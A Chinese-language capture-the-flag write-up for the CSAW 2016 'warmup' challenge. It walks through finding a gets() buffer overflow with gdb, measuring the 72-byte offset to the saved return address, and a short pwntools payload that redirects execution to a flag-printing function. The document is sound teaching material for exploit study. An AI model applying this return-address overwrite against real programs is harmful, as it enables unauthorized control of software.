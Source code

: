 # 2.3 Csaw 2016 Quals Warmup
首先查看ELF开启了那些安全机制

```python
[*] '/home/lex/Project/nightmare/modules/05-bof_callfunction/csaw16_warmup/warmup'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
运行程序

![image](images/75855514.png)

程序输出一个地址，然后获取一个用户输入

我们使用IDA进行反编译得到的代码如下

![image](images/75812219.png)

从上面的代码中可以看出，程序输出了easy的地址，然后使用gets函数获取用户的输入赋值到v5变量，easy的具体定义如下：

![image](images/75932368.png)

easy函数返回了flag的内容

因为gets函数没有对输入的内容做长度限制，那么就可以造成缓冲区溢出，所以可以覆盖RIP的地址，把地址指向到easy函数的地址，就能成功返回flag

我们需要得到v5变量的地址到rip地址之间相差了多少个字节

使用gdb进行调试，首先下断点

```python
gdb-peda$ disassemble main 
Dump of assembler code for function main:
   0x000000000040061d <+0>: push   rbp
   0x000000000040061e <+1>: mov    rbp,rsp
   0x0000000000400621 <+4>: add    rsp,0xffffffffffffff80
   0x0000000000400625 <+8>: mov    edx,0xa
   0x000000000040062a <+13>:    mov    esi,0x400741
   0x000000000040062f <+18>:    mov    edi,0x1
   0x0000000000400634 <+23>:    call   0x4004c0 <write@plt>
   0x0000000000400639 <+28>:    mov    edx,0x4
   0x000000000040063e <+33>:    mov    esi,0x40074c
   0x0000000000400643 <+38>:    mov    edi,0x1
   0x0000000000400648 <+43>:    call   0x4004c0 <write@plt>
   0x000000000040064d <+48>:    lea    rax,[rbp-0x80]
   0x0000000000400651 <+52>:    mov    edx,0x40060d
   0x0000000000400656 <+57>:    mov    esi,0x400751
   0x000000000040065b <+62>:    mov    rdi,rax
   0x000000000040065e <+65>:    mov    eax,0x0
   0x0000000000400663 <+70>:    call   0x400510 <sprintf@plt>
   0x0000000000400668 <+75>:    lea    rax,[rbp-0x80]
   0x000000000040066c <+79>:    mov    edx,0x9
   0x0000000000400671 <+84>:    mov    rsi,rax
   0x0000000000400674 <+87>:    mov    edi,0x1
   0x0000000000400679 <+92>:    call   0x4004c0 <write@plt>
   0x000000000040067e <+97>:    mov    edx,0x1
   0x0000000000400683 <+102>:   mov    esi,0x400755
   0x0000000000400688 <+107>:   mov    edi,0x1
   0x000000000040068d <+112>:   call   0x4004c0 <write@plt>
   0x0000000000400692 <+117>:   lea    rax,[rbp-0x40]
   0x0000000000400696 <+121>:   mov    rdi,rax
   0x0000000000400699 <+124>:   mov    eax,0x0
   0x000000000040069e <+129>:   call   0x400500 <gets@plt>
   0x00000000004006a3 <+134>:   leave  
   0x00000000004006a4 <+135>:   ret    
End of assembler dump.
gdb-peda$ b *main+134
Breakpoint 1 at 0x4006a3
```
然后运行程序，输入内容

```python
gdb-peda$ r
Starting program: /home/lex/Project/nightmare/modules/05-bof_callfunction/csaw16_warmup/warmup 
-Warm Up-
WOW:0x40060d
>aaaaaaaaaa

[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffdca0 ("aaaaaaaaaa")
RBX: 0x0 
RCX: 0x7ffff7dcfa00 --> 0xfbad2288 
RDX: 0x7ffff7dd18d0 --> 0x0 
RSI: 0x60226a --> 0xa ('\n')
RDI: 0x7fffffffdcaa --> 0x59a0000000000000 
RBP: 0x7fffffffdce0 --> 0x4006b0 (<__libc_csu_init>:    push   r15)
RSP: 0x7fffffffdc60 ("0x40060d\n")
RIP: 0x4006a3 (<main+134>:  leave)
R8 : 0x60226b --> 0x0 
R9 : 0x7ffff7b52390 (<__memcpy_ssse3+7232>: mov    rcx,QWORD PTR [rsi-0x9])
R10: 0x602010 --> 0x0 
R11: 0x7ffff7ba0ec0 --> 0xfffb14e0fffb1318 
R12: 0x400520 (<_start>:    xor    ebp,ebp)
R13: 0x7fffffffddc0 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400696 <main+121>: mov    rdi,rax
   0x400699 <main+124>: mov    eax,0x0
   0x40069e <main+129>: call   0x400500 <gets@plt>
=> 0x4006a3 <main+134>: leave  
   0x4006a4 <main+135>: ret    
   0x4006a5:    nop    WORD PTR cs:[rax+rax*1+0x0]
   0x4006af:    nop
   0x4006b0 <__libc_csu_init>:  push   r15
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdc60 ("0x40060d\n")
0008| 0x7fffffffdc68 --> 0xa ('\n')
0016| 0x7fffffffdc70 --> 0x0 
0024| 0x7fffffffdc78 --> 0x0 
0032| 0x7fffffffdc80 --> 0x9 ('\t')
0040| 0x7fffffffdc88 --> 0x7ffff7dd7660 (<dl_main>: push   rbp)
0048| 0x7fffffffdc90 --> 0x7fffffffdcf8 --> 0x7fffffffddc8 --> 0x7fffffffe167 ("/home/lex/Project/nightmare/modules/05-bof_callfunction/csaw16_warmup/warmup")
0056| 0x7fffffffdc98 --> 0x1 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
```
这里随意输入了几个aaaa，然后在内存中搜索aaaa，即可得到变量v5的地址

```python
gdb-peda$ searchmem aaaaa
Searching for 'aaaaa' in: None ranges
Found 4 results, display max 4 items:
 [heap] : 0x602260 ("aaaaaaaaaa\n")
 [heap] : 0x602265 --> 0xa6161616161 ('aaaaa\n')
[stack] : 0x7fffffffdca0 ("aaaaaaaaaa")
[stack] : 0x7fffffffdca5 --> 0x6161616161 ('aaaaa')
```
在栈中，可以得到v5的地址为 0x7fffffffdca0，接着我们继续看栈上其他寄存器的信息，使用info frame命令

```python
gdb-peda$ i f
Stack level 0, frame at 0x7fffffffdcf0:
 rip = 0x4006a3 in main; saved rip = 0x7ffff7a05b97
 called by frame at 0x7fffffffddb0
 Arglist at 0x7fffffffdce0, args: 
 Locals at 0x7fffffffdce0, Previous frame's sp is 0x7fffffffdcf0
 Saved registers:
  rbp at 0x7fffffffdce0, rip at 0x7fffffffdce8

```
可以看到rip的地址为 0x7fffffffdce8 ，所以v5到rip之间相差了 0x7fffffffdce8 - 0x7fffffffdca0 = 72字节

从上面程序的运行结果可以得到，easy函数的地址为 0x40060d

![image](images/76572974.png)

所以构造的payload如下：

```python
from pwn import *

payload = 'A' * 72 + p64(0x40060d)
payload += p64(0x12345678)  # fix eip 
target = process('./warmup')
target.sendline(payload)
target.interactive()
```
![image](images/c74334a5-a7cf-4d33-b074-0a8271c6423d.png)



正常的栈结构

![image](images/1393c204-ae83-4ac2-a2a8-a8f57b9f1e87.png)

当我们覆盖了原来的EIP之后，原来的EIP在新函数 easy 中则属于 EBP了，因此还需要再添加一个新的EIP，随便指一个地址，把栈结构补充完整即可

![image](images/5bcaeb88-eb04-4dc7-9dfb-359471d28add.png)



参考文档



https://www.exploit-db.com/docs/28553.pdf